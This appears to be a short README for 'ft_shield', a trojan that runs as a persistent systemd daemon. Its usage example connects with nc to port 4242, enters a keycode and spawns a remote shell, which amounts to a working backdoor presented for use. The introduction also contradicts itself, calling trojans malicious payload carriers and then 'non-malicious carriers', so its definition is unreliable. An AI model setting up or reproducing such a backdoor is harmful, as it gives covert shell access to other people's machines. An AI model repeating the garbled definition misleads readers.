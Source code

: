 ## Introduction
A trojan horse is a type of malware disguised as legitimate software. While it appears harmless, it installs a hidden malicious payload on the target machine. This payload can be a virus, spyware, or keylogger and performs unauthorized actions. Antivirus programs often misuse the term "trojan" as a general label for any malware, although true trojans are non-malicious carriers..
## Usage Example
# Start the program
    $ ./ft_shield
# Verify daemon is running
    $ systemctl status ft_shield.service
# Connect to daemon
    $ nc addr_ip 4242
    Keycode: 42
    $> shell
    Spawning shell on port 4242
